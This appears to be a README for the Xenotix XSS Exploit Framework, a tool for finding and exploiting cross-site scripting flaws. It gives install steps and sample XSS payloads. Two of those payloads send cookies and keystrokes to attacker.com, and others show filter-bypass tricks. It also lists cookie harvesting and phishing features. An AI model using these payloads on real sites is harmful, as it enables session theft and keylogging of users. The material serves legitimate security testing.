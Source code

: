 # Xenotix XSS Exploit Framework

Advanced XSS vulnerability detection and exploitation framework with GUI interface.

## Installation

```bash
# Download from GitHub releases
wget https://github.com/ajinabraham/Xenotix-XSS-Exploit-Framework/archive/master.zip
unzip master.zip
cd Xenotix-XSS-Exploit-Framework-master

# Install Python dependencies
pip install -r requirements.txt

# Start application
python XenotixXSSExploitFramework.py
```

## Core Features

### Manual Testing Mode
- Single URL vulnerability assessment
- Custom payload injection
- Response analysis tools
- Screenshot capture

### Auto Scan Mode
- Automated vulnerability discovery
- Multiple injection point testing
- Bulk URL processing
- Comprehensive reporting

## Payload Categories

### Basic XSS Payloads
```javascript
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>
```

### Advanced Payloads
```javascript
// DOM manipulation
<script>document.body.innerHTML='<h1>XSS</h1>'</script>

// Cookie theft
<script>new Image().src='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Keylogger
<script>document.onkeypress=function(e){new Image().src='http://attacker.com/log.php?key='+e.key}</script>
```

### Bypass Techniques
```javascript
// Encoding bypass
&#60;script&#62;alert('XSS')&#60;/script&#62;

// Case variation
<ScRiPt>alert('XSS')</ScRiPt>

// Event handler abuse
<input onfocus=alert('XSS') autofocus>
```

## Exploitation Features

### Cookie Harvesting
Capture session cookies from vulnerable applications.

### Phishing Integration
Generate convincing phishing pages through XSS.

### BeEF Integration
Connect discovered XSS to Browser Exploitation Framework.

### Custom Exploit Generation
Create tailored exploits for specific vulnerabilities.

## Analysis Tools

### Response Analyzer
- HTTP response inspection
- Header analysis
- Content type detection
- Reflection point identification

### Payload Encoder
- URL encoding
- HTML entity encoding
- JavaScript encoding
- Base64 encoding

### Filter Bypass Generator
Automated bypass payload generation for common filters.

## Reporting Capabilities

### Vulnerability Reports
- Technical vulnerability details
- Proof-of-concept demonstrations
- Remediation recommendations
- Risk assessment metrics

### Export Options
- HTML reports
- XML data export
- CSV vulnerability lists
- PDF documentation

## Integration Features

- Burp Suite extension support
- OWASP ZAP integration
- Custom API endpoints
- Third-party tool compatibility

Educational framework for understanding XSS vulnerability classes and exploitation techniques.
